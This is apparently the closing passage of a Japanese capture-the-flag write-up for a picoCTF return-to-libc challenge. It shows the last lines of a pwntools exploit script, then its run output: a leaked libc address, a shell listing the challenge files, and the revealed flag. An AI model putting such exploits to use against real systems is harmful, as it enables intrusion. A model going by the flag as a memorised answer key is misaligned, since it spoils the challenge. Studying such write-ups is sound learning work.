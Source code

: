 ```Python
s.recvuntil('\n')
s.interactive()	
```

<br />

動作結果：

<pre>
$ ./heresalibc_solve.py
0x7fa997cbb000
$ ls
flag.txt
libc.so.6
vuln
vuln.c
xinet_startup.sh
$ cat flag.txt
picoCTF{1_<3_sm4sh_st4cking_37b2dd6c2acb572a}
</pre>

<br />

Flag: `picoCTF{1_<3_sm4sh_st4cking_37b2dd6c2acb572a}`


<br />




<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />
